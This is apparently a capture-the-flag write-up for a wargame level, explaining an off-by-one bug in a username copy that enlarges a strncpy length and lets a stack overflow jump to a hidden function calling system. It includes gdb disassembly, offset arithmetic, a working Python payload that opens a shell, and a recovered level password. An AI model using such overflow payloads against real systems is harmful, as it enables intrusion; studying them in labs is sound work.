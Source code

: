 ## Project README: Finding flag08


### Analysis

We have a dead code that will call system.

So we actually have a 140 buffer for the msg a 40 buffer for the username and an int for the size to write

So in memory the structure will look like this in the stack
[              MSG          ][   USERNAME   ][Size]
And every this is protected exept one thing :
```C
for ( i = 0; i <= 40 && s[i]; ++i )
		*(_BYTE *)(str + i + 140) = s[i];
```
Because of this i <= 40 we can write 1 more byte that we supposed to be allowed.
So because everything is after each other. If we write 41 char we are actually going to write 1 byte in the size so we can modify the size that is going to be copied here :
```C
return strncpy((char *)str, s, *(int *)(str + 180));
```
And after we can put 255 in hex so we have a bigger size and so a buffer overflow. We just need to find an adress to put our dead code.

### Progress


```Bash
Dump of assembler code for function handle_msg:
	0x00005555555548c0 <+0>:	push   rbp
	0x00005555555548c1 <+1>:	mov    rbp,rsp
	0x00005555555548c4 <+4>:	sub    rsp,0xc0
	0x00005555555548cb <+11>:	lea    rax,[rbp-0xc0]
	0x00005555555548d2 <+18>:	add    rax,0x8c
	0x00005555555548d8 <+24>:	mov    QWORD PTR [rax],0x0
	0x00005555555548df <+31>:	mov    QWORD PTR [rax+0x8],0x0
	0x00005555555548e7 <+39>:	mov    QWORD PTR [rax+0x10],0x0
	0x00005555555548ef <+47>:	mov    QWORD PTR [rax+0x18],0x0
	0x00005555555548f7 <+55>:	mov    QWORD PTR [rax+0x20],0x0
	0x00005555555548ff <+63>:	mov    DWORD PTR [rbp-0xc],0x8c
	0x0000555555554906 <+70>:	lea    rax,[rbp-0xc0]
	0x000055555555490d <+77>:	mov    rdi,rax
	0x0000555555554910 <+80>:	call   0x5555555549cd <set_username>
	0x0000555555554915 <+85>:	lea    rax,[rbp-0xc0]
	0x000055555555491c <+92>:	mov    rdi,rax
	0x000055555555491f <+95>:	call   0x555555554932 <set_msg>
	0x0000555555554924 <+100>:	lea    rdi,[rip+0x295]
	0x000055555555492b <+107>:	call   0x555555554730 <puts@plt>
	0x0000555555554930 <+112>:	leave
	0x0000555555554931 <+113>:	ret
```
to find the adress of our buffer let's possition ourself after the set msg and print rax. Also let's print rip that his our saved adress that will jump when ret is call.

```Bash
(gdb) b *0x0000555555554924
Breakpoint 2 at 0x555555554924
(gdb) run
Single stepping until exit from function main,
which has no line number information.
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: Pierrick
>: Welcome, Pierrick
>: Msg @Unix-Dude
>>: Test

Breakpoint 2, 0x0000555555554924 in handle_msg ()
(gdb) x $rax
0x7fffffffe510:	0x74736554
(gdb) info frame
Stack level 0, frame at 0x7fffffffe5e0:
 rip = 0x555555554924 in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5f0
 Arglist at 0x7fffffffe5d0, args:
 Locals at 0x7fffffffe5d0, Previous frame's sp is 0x7fffffffe5e0
 Saved registers:
  rbp at 0x7fffffffe5d0, rip at 0x7fffffffe5d8
```

let's calcul the differentce now :
``` Bash
(gdb) p 0x7fffffffe5d8 - 0x7fffffffe510
$3 = 200
(gdb) i func
...
0x000055555555488c  secret_backdoor (\x8c\x48\x55\x55\x55\x55\x00\x00)
...
```
So our eip adress si 200 char after our msgbuffer.
Ok so let's build the payload

```Bash
(python -c 'print("A" * 40 + "\xff" + "\n" + "a" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh")';cat) | ./level09
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
whoami
end
cd ..
cd end
cat .pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE
```

